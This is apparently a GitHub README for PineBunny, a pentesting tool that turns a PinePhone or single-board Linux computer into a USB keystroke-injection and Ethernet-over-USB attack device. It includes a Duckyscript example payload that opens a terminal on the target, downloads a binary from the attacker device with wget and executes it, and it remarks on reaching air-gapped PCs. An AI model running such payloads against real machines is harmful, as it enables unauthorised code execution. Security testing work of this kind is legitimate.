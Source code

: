 # PineBunny

# An attempt to implement something similar to what a Bash Bunny does on the PinePhone (Pro)
### WARNING! Very Alpha state, right now it works only manually. Automation will be added in the future

This is a recollection of scripts to enable the virtual /dev/hidg0 device on USBGadget enabled kernels and perform keystroke injection attacks emulating a keyboard. This tool is mostly useful in penetration testing assesments and engagements and the ideal devices to use this with would be any kind of Raspberry Pi model/any single board linux computer for that matter, and the PinePhone (Pro) or any other linux phone with a compatible kernel.
Even though those devices are the best ones to use, the tool should work on any device as long as it has USBGadget enabled.


# ¿How to check if my kernel is compatible?

To see if your kernel was compiled with USBGadget enabled, you can typically check the file "/proc/config.gz" to see your current kernel configuration.
Do `gunzip -c /proc/config.gz | grep CONFIG_USB_GADGET=` and check if it ends in `y`. If not you'll have to recompile the kernel yourself and enable it; which is beyond the scope of this repository.


# Installation

To install the scripts clone the repositoryy first and cd into it, and then simply compile usleep and hid-gadget-test:
`gcc -o hid-gadget-test.c hid-gadget-test`
`gcc -o usleep.c usleep`
Then, you can simply remove the .c files and copy the binaries to /usr/bin.
Keep in mind you'll need a different 'badusb' binary for each keyboard layout, so copy the one for your keyboard like so:
`sudo cp badusb-[YOUR_LAYOUT] /usr/bin/badusb`

Only en_US and es_ES are supported right now, I'll work on more layouts when I get the time.


# Usage

The badusb script uses conventional Duckyscript, and its usage is:

`sudo mkhidg0` (you need to enable /dev/hidg0 first, tho mkhidg0 also enables the ecm module of USB Gadget, so you'll have ethernet over USB, too. Just keep in mind that your target won't get an IP address automatically assigned without a proper dhcp server running. I personally like to use dnsmasq)
`sudo badusb duckypayload.txt`


# Example payload using HID + Ethernet

By default, `mkhidg0` enables HID and ethernet over usb. The only downside right now is that it isn't configured automatically, so you'll have to do it yourself. Let's look at an example:

Let's say we have a file we want the target to download and execute, a file hosted on the PinePhone itself (like `python -m http.server` for example).
We'll need to prepare the usb0 interface and a dhcp server so the computer gets an IP assigned: `sudo mkhidg0`, `sudo ifconfig usb0 up 10.0.0.1 netmask 255.255.255.0`. Then, the dhcp server with this `dnsmasq.conf` configuration:

```
interface=usb0
dhcp-range=10.0.0.2, 10.0.0.30, 255.255.255.0, 12h
dhcp-option=3, 10.0.0.1
dhcp-option=6, 10.0.0.1 
server=8.8.8.8
log-queries
log-dhcp 
listen-address=127.0.0.1
```
`sudo dnsmasq -C dnsmasq.conf -d` We leave that running and we also leave the web server running: `python -m http.server`. Now it should work. Our example payload file looks like this, and it is aimed at a regular linux desktop:

```
DELAY 2000
GUI
DELAY 500
STRING terminal
ENTER
DELAY 1000
STRING wget http://10.0.0.1:8000/hello
ENTER
DELAY 400
STRING chmod +x ./hello
ENTER
DELAY 100
STRING ./hello
ENTER
```
`sudo badusb payload.txt`

Remember, ethernet over USB can give you physical network access to a computer, which means you could hack an airgapped PC too!
Moreover, you are not forced to use a Duckyscript payload, you could just ignore that and launch a nmap scan physically connected over USB!
The options are endless...
